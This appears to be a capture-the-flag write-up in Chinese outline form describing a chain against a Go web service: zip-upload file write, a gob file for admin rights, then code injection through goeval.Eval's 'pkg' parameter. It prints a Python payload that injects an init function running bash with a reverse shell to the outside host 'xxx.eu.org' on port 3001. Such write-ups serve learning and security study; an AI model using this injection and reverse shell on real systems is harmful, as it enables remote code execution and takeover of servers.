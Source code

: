 - # 思路
	- 上传并解压zip文件可以实现任意文件写入
	- 写入gob文件可以获取admin权限
	- 获取admin权限可以利用注入进行RCE
- # 命令注入
	- 相关代码
		- ```go
		  eval, err := goeval.Eval(
		    "", 
		    "fmt.Println(\"Good\")", 
		    c.DefaultQuery("pkg", "fmt")
		  )
		  ```
	- 查看函数实现可知此处使用^^拼接生成`.go`文件并执行^^的方法实现eval，且第三个参数会拼接到eval处
	- 我们可以通过import其他package并注入一个`init`函数实现RCE
	- payload
		- ```python
		  r = base_get(f"{url}/backdoor", params = {
		      "pkg": "\"os/exec\"\n fmt\"\n)\n\nfunc\tinit(){\ncmd:=exec.Command(CMD)\nout,_:=cmd.CombinedOutput()\nfmt.Println(string(out))\n}\n\n\nvar(a=\"1".replace(
		          "CMD",
		          '"bash","-c","{}"'.format(
		              generate_reverse_shell_payload("xxx.eu.org", 3001)
		          )
		      )
		  })
		  print(r.text)
		  ```